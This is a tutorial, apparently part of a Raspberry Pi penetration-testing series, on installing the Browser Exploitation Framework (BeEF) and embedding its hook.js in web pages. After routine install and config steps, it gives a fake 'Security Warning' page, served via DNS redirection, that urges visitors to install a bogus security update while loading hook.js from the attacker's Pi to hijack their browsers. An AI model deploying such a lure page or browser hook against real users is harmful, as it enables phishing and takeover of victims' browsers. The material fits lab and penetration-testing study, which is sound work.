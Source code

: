 # BeEF on Raspberry PI

BeEF (_Browser Exploitation Framework_) is a penetration tool focused on exploiting vulnerabilities inside web browsers.

## Objective

The aim of this tutorial is to set up BeEF on Raspberry PI and to show you where you could place the `hook.js`.

## Precondition

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Simple Access Point](../AccessPoint)
- [DNS Analysis](../DNSAnalysis)
- [DNS Redirection](../DNSRedirection)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim

# install needed packages
$ sudo apt install -y ruby-full curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev
```

## BeEF

### Install BeEF

```shell
# changer into home directory
$ cd ~

# clone git repository
$ git clone https://github.com/beefproject/beef.git

# change into cloned repository directory
$ cd beef/

# modify install script
$ vim install
```

On line 106 are two packages which are not available `gcc-9-base` and `libgcc-9-dev`. You must remove them from the file `/home/pi/beef/install`! If you have already installed all packages, you can comment this line.

```shell
...
if [ "${Distro}" = "Debian" ] || [ "${Distro}" = "Kali" ]; then
   sudo apt-get update
   # sudo apt-get install curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev gcc-9-base libgcc-9-dev
...
```

To save a lot of time, you can add `--no-document` into command `sudo gem${RUBYSUFFIX} update --system` on line 205.

### Configure BeEF

Just change username and password on `/home/pi/beef/config.yaml`.

```shell
# modify config.yaml
$ vim config.yaml
```

Read this [Wiki](https://github.com/beefproject/beef/wiki/Configuration) for more information's.

### Start BeEF

```shell
# start BeEF
$ ./beef
```

Open in your browser the URL `http://192.168.0.1:3000/ui/panel` and login with your credentials (_you have modified in the config.yaml_).

_Note: If you follow the output inside the terminal, you will see that some other packages are required. Install them if you need them (maybe in second terminal session) and execute the BeEF command again (inside the Browser UI)._

### Test BeEF local

You can also test BeEF locally, but be careful!

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>local test of BeEF</title>
</head>
<body>
  <p>This is my local test site...</p>
  <script src="http://[your ip of wlan0 interface]:3000/hook.js"></script>
</body>
</html>
```

## Prepare the spoofed domain web page

Now we place the `hook.js` inside the fake page.

Content of file `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Security Warning - with security update</title>
  <link type="text/css" rel="stylesheet" href="styles/style.css">
</head>
<body>
  <div id="warning">
    <h1>Security Warning</h1>
    <p>We have detected a serious security problem,<br /> 
       please install now the free security update!</p>
  </div>
  <div id="patch">
    <span><!-- placeholder security update --></span>
  </div>
  <script type="text/javascript" src="scripts/script.js"></script>
  <script src="http://192.168.0.1:3000/hook.js"></script>
</body>
</html>
```

## Additional

If the client has JavaScript disabled, this attack will not work.

[Go Back](../readme.md)
